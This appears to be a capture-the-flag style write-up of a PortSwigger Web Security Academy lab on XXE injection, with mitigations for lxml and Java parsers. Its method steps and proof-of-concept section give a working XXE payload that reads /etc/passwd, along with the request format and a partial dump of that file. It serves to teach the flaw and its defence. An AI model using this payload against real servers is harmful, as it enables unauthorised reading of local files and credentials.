


# Lab 01: Exploiting XXE Using External Entities to Retrieve Files

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — File Disclosure via External Entity in XML Body

## Vulnerability Summary
The application's stock-check feature submits product data as XML and parses it server-side without disabling external entity processing. By injecting a DOCTYPE declaration that defines an external entity pointing to a local file (`file:///etc/passwd`), and referencing that entity in the parsed XML body, the server resolves the entity and returns the file contents in the response. The full `/etc/passwd` was returned inline in the error message, confirming unauthenticated read access to arbitrary local files.

## Attack Methodology

### Step 1: Identify the XML Entry Point
Opened a product page and clicked "Check stock". Intercepted the outgoing POST request in Burp Repeater:

```
POST /product/stock HTTP/2
Host: 0a4b00710483ebb484601411006700c3.web-security-academy.net
Content-Type: application/xml
Content-Length: 107

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>3</productId>
    <storeId>1</storeId>
</stockCheck>
```

The `Content-Type: application/xml` header and the XML body confirm the server is parsing XML. The `productId` value is reflected in the response error message — a direct read-back point for entity injection.

### Step 2: Inject the XXE Payload
Modified the request to define an external entity referencing `/etc/passwd` and substituted it into `<productId>`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

### Step 3: Retrieve the File
The server resolved `&xxe;`, substituted the contents of `/etc/passwd`, and returned them in the response body:

```
"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/bin/sh
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
...
```

Lab solved.





## Technical Root Cause

```python
# Vulnerable — XML parsed with external entity resolution enabled (default in many parsers)
from lxml import etree

def check_stock(request):
    xml_data = request.body
    tree = etree.fromstring(xml_data)          # external entities resolved by default
    product_id = tree.find('productId').text
    # product_id now contains the contents of the referenced file
```

The XML parser processes the DOCTYPE declaration and resolves `SYSTEM` entities against the local filesystem before the application reads any values. The application then uses the resolved value directly in its response, turning the parser into an unintentional file-read primitive.

### Why This Works

| Component | Behaviour |
|---|---|
| XML parser | Resolves `SYSTEM` entities against local filesystem by default |
| `productId` field | Value reflected verbatim in the error response |
| No input validation | DOCTYPE and entity declarations are not stripped |
| No parser hardening | External entity processing not disabled |

## Impact
- **Arbitrary Local File Read**: Any file readable by the web server process can be exfiltrated — `/etc/passwd`, application config files, private keys, source code
- **Credential Exposure**: Config files often contain database passwords, API keys, and cloud credentials
- **Internal Network Probing**: `SYSTEM "http://internal-host/"` turns the parser into an SSRF primitive for probing internal services
- **No Authentication Required**: The stock-check endpoint is accessible to any user

## Proof of Concept

```
POST /product/stock HTTP/2
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Response contains the full contents of `/etc/passwd`.

## Key Takeaways
1. **Disable External Entity Processing Explicitly**: XML parsers resolve external entities by default in many languages. This must be explicitly disabled — it is not a safe default.
2. **Reflected Values Are the Exfiltration Channel**: XXE requires a way to get the resolved entity value back to the attacker. Here the `productId` was echoed in the error message. In blind XXE scenarios, out-of-band techniques (DNS/HTTP callbacks) are needed instead.
3. **Content-Type Is Not a Defense**: Changing the `Content-Type` or rejecting non-XML requests does not prevent XXE if the parser still processes the body as XML. The fix must be at the parser configuration level.
4. **XXE Chains Into SSRF**: The same `SYSTEM` entity mechanism that reads local files can point at internal HTTP endpoints, making XXE a dual file-read and SSRF primitive.

## Mitigation

### 1. Disable External Entity Processing (Primary Fix)
```python
# lxml — disable external entities and DTD processing
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
tree = etree.fromstring(xml_data, parser)
```

```java
// Java — disable external entities on DocumentBuilderFactory
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

### 2. Use a Data Format That Doesn't Support Entities
If the application only needs structured key-value input, replace XML with JSON. JSON has no concept of entity declarations and eliminates the attack surface entirely.

### 3. Validate and Allowlist Input Values
Even with a hardened parser, validate `productId` and `storeId` against expected types (integers) before use. This limits the blast radius of any parser misconfiguration.

## References
- [PortSwigger XXE Lab — Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
- [PortSwigger XXE — What is XML external entity injection?](https://portswigger.net/web-security/xxe)
- [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
